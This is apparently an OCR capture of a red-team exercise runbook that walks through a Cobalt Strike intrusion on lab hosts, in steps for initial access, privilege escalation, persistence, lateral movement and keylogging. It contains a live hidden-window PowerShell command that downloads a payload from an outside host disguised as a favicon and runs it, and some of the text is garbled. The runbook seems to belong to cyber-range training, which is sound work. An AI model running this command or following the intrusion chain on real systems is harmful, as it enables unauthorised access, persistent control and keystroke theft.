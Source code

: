 On Remote Host: 
� Task Manager>Run: powershell -win h -c "iex (iwr -useb http://macfeelabs.com/favicon.ico)" 
� Wait for beacon check-in 
� Disconnect from RDP 
 
 
Discovery 
> Attacks>MDS1>Foothold � Privsec 
> Beacon: Initial Beacon 
 
Privilege 
Escalation 
 
Cobalt Strike: 
� Attacks > MDS1 > Foothold - Privesc 
� Beacon: Initial beacon 
� Listener: HTTP_MDS1 
� Failed attempts: 40 
� Delay (seconds): 0.5 
� Execute 
A new elevated beacon should spawn. 
 

 
Persistence 
 
� Attacks > MDS1 > Foothold - Persistence Download 
� Beacon: Initial beacon 
� Attacks > MDS1 > Foothold - Persistence Install 
� Beacon: Elevated beacon 
� Wait for persistence beacon check-in 
 
 
Network 
Discovery 
� Attacks > MDS1 > Foothold - Lateral Discovery � Beacon: Elevated beacon 
 
 
Lateral 
Movement 
- Muggle 
� Attacks > MDS1 > Foothold - Lateral Setup 
� Beacon: Elevated beacon 
� Attacks > MDS1 > Lateral - Initial Access (Clip) 
� Follow Instructions 
� Wait for callback in Cobalt Strike 
� Disconnect from RDP 
� Attacks > MDS1 > Foothold - Lateral Teardown � Beacon: Elevated beacon 
 
 
Keylogger 
 
NOTE: Automation is unavailable beyond this point. 
> Left-click new muggle-4 beacon 
> Right-click > Interact  
 
sleep 60 20 
 
PCTE: 
� Open Muggle-4 Console > Open Remote Desktop UI (Do not connect) 
� Leave Console open for later 
 